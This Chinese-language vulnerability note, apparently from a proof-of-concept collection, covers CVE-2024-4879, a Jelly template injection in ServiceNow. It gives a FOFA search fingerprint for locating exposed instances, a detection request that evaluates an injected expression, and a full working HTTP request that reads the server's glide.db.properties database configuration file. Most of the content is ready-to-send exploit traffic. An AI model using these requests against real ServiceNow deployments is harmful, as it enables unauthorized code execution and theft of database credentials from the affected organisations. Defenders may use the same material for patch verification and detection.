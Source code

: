 **fofa**

```
icon_hash="1701804003"
```

**一、漏洞简述**

ServiceNow UI (用户界面)是ServiceNow平台提供的一种直观、现代化的用户交互方式。它采用响应式设计,能在各种设备上显示良好,并提供直观的导航菜单和面包屑功能,让用户能快速找到所需的功能和信息。同时,ServiceNow UI 支持个性化设置,用户可以自定义UI的外观和布局。针对移动设备,ServiceNow UI也进行了优化,提供了触摸优先的交互方式。总的来说, ServiceNow UI旨在为用户提供一种简单、统一且高效的使用体验,满足他们在ServiceNow平台上的各种需求。其存在CVE-2024-4879 Jelly模板注入漏洞攻击者可通过此漏洞执行代码，读取系统文件内容。

**二、漏洞检测poc**

```
GET /login.do?jvar_page_title=%3Cstyle%3E%3Cj:jelly%20xmlns:j=%22jelly%22%20xmlns:g=%27glide%27%3E%3Cg:evaluate%3Egs.addErrorMessage(9999*9999);%3C/g:evaluate%3E%3C/j:jelly%3E%3C/style%3E HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close


```

读取配置文件

```yaml
GET /login.do?jvar_page_title=%3Cstyle%3E%3Cj:jelly%20xmlns:j=%22jelly:core%22%20xmlns:g=%27glide%27%3E%3Cg:evaluate%3Ez=new%20Packages.java.io.File(%22%22).getAbsolutePath();z=z.substring(0,z.lastIndexOf(%22/%22));u=new%20SecurelyAccess(z.concat(%22/co..nf/glide.db.properties%22)).getBufferedReader();s=%22%22;while((q=u.readLine())!==null)s=s.concat(q,%22%5Cn%22);gs.addErrorMessage(s);%3C/g:evaluate%3E%3C/j:jelly%3E%3C/style%3E%22 HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close

```

